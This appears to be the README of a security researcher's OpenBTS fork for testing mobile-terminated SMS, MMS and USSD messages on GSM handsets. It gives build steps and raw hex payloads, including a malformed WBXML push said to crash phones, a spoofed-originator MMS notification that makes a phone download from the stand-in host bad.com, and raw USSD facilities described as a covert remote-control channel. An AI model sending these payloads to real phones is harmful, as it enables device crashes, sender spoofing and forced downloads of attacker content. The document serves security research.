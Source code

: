 # OpenBTS

OpenBTS fork with a few extras for SMS/MMS/USSD testing. Ensure you have a GSM licence first.
https://www.contextis.com/resources/blog/binary-sms-old-backdoor-your-new-thing/

 - MT SMS/MMS with custom TPDUs
 - MT USSD with custom facilities

This took months to get right. GSM is *ridiculously* complicated but stubborn persistence, wireshark and ignorance pays off eventually...
The scripts we use to send SMS, MMS & USSD PDUs are not included.

## Setup
http://openbts.org/w/index.php?title=BuildInstallRun
```
git clone https://github.com/RangeNetworks/dev.git
cd dev
./clone.sh
./switchto.sh master
./build.sh B200
rm -rf openbts
git clone https://github.com/ctxis/openbts.git
cd openbts
make
```
## Logging
Run wireshark on loopback with filter 'gsm_sms'
```
OpenBTS> rawconfig.GSMTAP.TargetIP 127.0.0.1
OpenBTS> rawconfig Control.GSMTAP.GSM 1
```
Also enable SMS logging then tail logs:
```
OpenBTS> rawconfig Log.Level.L3SMSControl.cpp DEBUG
tail -f /var/log/OpenBTS.log | grep -i SMS
```

## Mobile Terminated SMS

### Hello from 12345
```
OpenBTS> rawconfig SMS.MIMEType text/plain
OpenBTS> sendsms 23415914952xxxx 12345 Hello
```
### Multipart 8-bit WSP Push with UDH header and (malformed) WBXML
Header is a Lebara WBXML config message but body is garbage. This could crash your phone.
```
OpenBTS> rawconfig SMS.UDHI 1
OpenBTS> rawconfig SMS.DCS 4
OpenBTS> rawconfig SMS.MIMEType application/vnd.3gpp.sms
SMS.MIMEType changed from "text/plain" to "application/vnd.3gpp.sms"
OpenBTS> sendsms 2341591721xxxx 12345 0B05040B8423F00003AA02017468697320697320612074657374206f6620636f6e636174656e617465642062696e61727920534d532077697468206120554448206865616465722e20496620796f752063616e207265616420746869
OpenBTS> sendsms 23415917212xxxx 12345 0B05040B8423F00003AA02027320796f752070726f6261626c792077616e7420746f206368616e67652074686520706f7274206e756d62657273206e6f7720616e6420646f20736f6d657468696e67206e61737479
```

### Notify MMS, 8-bit, .vcf contact card with UDH header and spoofed originator
This will trigger a download from http://bad.com/x.php if you have mobile data on. WiFi doesn't count.
You can DL MMS Multimedia from *anywhere* on the internet which is dangerous/great!
A .mms file download needs to be specially formatted but this is beyond the scope of OpenBTS.
```
OpenBTS> sendsms 23415917212xxxx 12345 0B05040B8423F000039001010f0603beaf848c8298393039303930008d908919802b31323334352f545950453d504c4d4e008a808e0201d888058103ffffff83687474703a2f2f6261642e636f6d2f782e7068703f393039303930009580
```
## Mobile Terminated USSD
Normally USSD codes like *#100# are used from the MS (Mobile originated / MO) but they can come from the network (MT). They're used by disaster warning systems and third world banking apps. A notify facility (0x3d) creates a pop-up msg, a request facility (0x3c) creates a pop-up form which returns the response as a notify. Custom facilities implemented by networks get parsed in the background without prompting the user making this a powerful and little known remote control protocol.

USSD Wireshark filter:
```
gsmtap.chan_type == 7 && !icmp
```

### "Godzilla! run for your lives!" notify facility
```
sendss 23415917212xxxx "Godzilla! run for your lives!" 0
```
### "Godzilla! run for your lives!" as a raw facility including headers
```
OpenBTS> sendss 23415917212xxxx a12a02013702013d30220401ff041d476f647a696c6c612c2072756e20666f7220796f7572206c6976657321 1
```



